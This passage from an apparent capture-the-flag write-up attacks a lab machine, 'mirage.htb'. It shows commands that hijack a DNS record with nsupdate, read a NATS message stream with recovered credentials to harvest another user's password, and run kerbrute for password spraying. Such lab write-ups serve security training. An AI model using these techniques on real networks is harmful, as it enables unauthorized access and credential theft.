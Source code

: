 Just in case the other services need to work as well, let's put our SRE hat on and fix the DNS record for them.
```sh
 nsupdate << EOF
server 10.129.241.222
zone mirage.htb
update add nats-svc.mirage.htb. 3600 IN A 10.129.241.222
send
EOF
```

We didn't get any new logs after fixing the record. But enumerating MQTT topics and checking active streams, we can see the following:

```sh
$ nats -s nats://nats-svc.mirage.htb:4222 stream list --user Dev_Account_A --password DEVNATSPASS
╭─────────────────────────────────────────────────────────────────────────────────╮
│                                     Streams                                     │
├───────────┬─────────────┬─────────────────────┬──────────┬───────┬──────────────┤
│ Name      │ Description │ Created             │ Messages │ Size  │ Last Message │
├───────────┼─────────────┼─────────────────────┼──────────┼───────┼──────────────┤
│ auth_logs │             │ 2025-05-05 00:18:19 │ 5        │ 570 B │ 76d15h47m18s │
╰───────────┴─────────────┴─────────────────────┴──────────┴───────┴──────────────╯

$ nats -s nats://nats-svc.mirage.htb:4222 stream view auth_logs --user Dev_Account_A --password DEVNATSPASS
[1] Subject: logs.auth Received: 2025-05-05T00:18:56-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


[2] Subject: logs.auth Received: 2025-05-05T00:19:24-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


[3] Subject: logs.auth Received: 2025-05-05T00:19:25-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


[4] Subject: logs.auth Received: 2025-05-05T00:19:26-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


[5] Subject: logs.auth Received: 2025-05-05T00:19:27-07:00
{"user":"david.jjackson","password":"DJACKSONPASS","ip":"10.10.10.20"}


09:07:13 Reached apparent end of data
```

Not sure why kerbrute failed to load teh ccache, maybe I forgot to click save on the password file. But manually kiniting the ticket works fine so we'll move on.


```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```
